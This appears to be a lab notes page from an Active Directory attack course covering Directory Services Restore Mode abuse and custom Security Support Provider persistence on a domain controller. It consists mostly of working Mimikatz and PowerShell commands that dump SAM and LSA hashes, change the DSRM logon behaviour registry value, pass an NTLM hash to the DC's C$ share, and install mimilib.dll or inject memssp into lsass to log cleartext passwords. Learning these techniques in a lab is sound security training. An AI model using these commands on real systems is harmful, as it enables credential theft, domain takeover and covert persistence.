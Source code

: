 # Directory Services Restore Mode (DSRM)

• DSRM is Directory Services Restore Mode.

• There is a local administrator on every DC called "Administrator" whose password is the DSRM password.

• DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.

• After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

![image](https://user-images.githubusercontent.com/40224197/211095052-9635bbf3-b88e-4c08-8c38-049ebfb8a9eb.png)

#### Dump DSRM password (needs DA privs)
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

#### Compare the Administrator hash with the Administrator hash of below command
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### First one is the DSRM Local Administrator

#### Since it is the local administrator of the DC, we can pass the hash to authenticate. But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```powershell
Enter-PSSession -Computername dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

#### Use below command to pass the hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorpdc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

ls \\dcorp-dc\C$
```

# Learning Objective 11

Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.

# Custome SSP

• A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:

– NTLM

– Kerberos

– Wdigest

– CredSSP

• Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

We can use either of the ways:

– Drop the mimilib.dll to system32 and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' $packages += "mimilib" Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages 
```

– Using mimikatz, inject into lsass (Not stable with Server 2016):
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`
![image](https://user-images.githubusercontent.com/40224197/211097007-f511e6dc-beaf-4112-8308-9bf444315d23.png)
